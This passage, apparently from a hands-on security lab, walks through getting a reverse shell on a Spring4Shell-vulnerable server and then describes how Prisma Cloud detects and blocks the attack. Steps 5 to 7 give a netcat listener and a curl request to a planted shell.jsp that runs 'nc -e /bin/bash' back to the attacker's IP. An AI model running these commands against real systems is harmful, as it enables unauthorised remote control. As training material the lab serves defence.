 ![](./images/pan08.png)

5.	In order to get the reverse shell on the server we need to setup the rever shell listener on Kali machine by running the below command. Please use a separate tab to keep our session active.

```
nc -lvnp 9001
```

![](./images/pan09.png)
   
6. Send the payload using the curl command shown below
   
**You can copy the Vuln App IP Address as given below and provide it in following curl command."**

* Vuln App IP Address: **<inject key="UbuntuVMPublicIp" enableCopy="true" />**
  
```
curl --output - http://<Vuln App IP Address>/shell.jsp?cmd=nc%20-e%20/bin/bash%2010.0.2.160%209001
```

![](./images/pan10.png)

7. Notice that on Kali machine we got a reverse shell and now you can run any command on the vulnerable application server.

![](./images/pan11.png)

## How Prisma Cloud Help you Detect and Prevent this Attack
 
## 1. Vulnerability Detection

**Prisma cloud has the capability to run scans and detect vulnerability in Java application packages. So if your application is running with Spring4Shell vulnerable package it will detect immediately. Prisma Cloud supports the scanning of container registries to identify vulnerabilities in packages early in the CI/CD pipeline. Prisma Cloud detects vulnerabilities in VMs/Host and Serverless applications during the build, deployment, and runtime.**

![](./images/pan12.png)

## 2. Misconfigured / non-complained container detection

**Prisma cloud will detect misconfigured workloads and alert you. As in this attack container running as a root user and due to that attacker is able to download and install netcat.**

![](./images/pan13.png)

## 3. WaaS Prevent from Command Injection Vulnerability
 
**Prisma WAAS secures web-based applications hosted on hosts and containers from attacks such as SQL injection, Cross-site scripting (XSS), Malformed request protection, Cross-site request forgery, Clickjacking, and Shellshock exploitation. Prisma Cloud WAAS can enforce API traffic security based on definitions specified in the form of Open API files.**

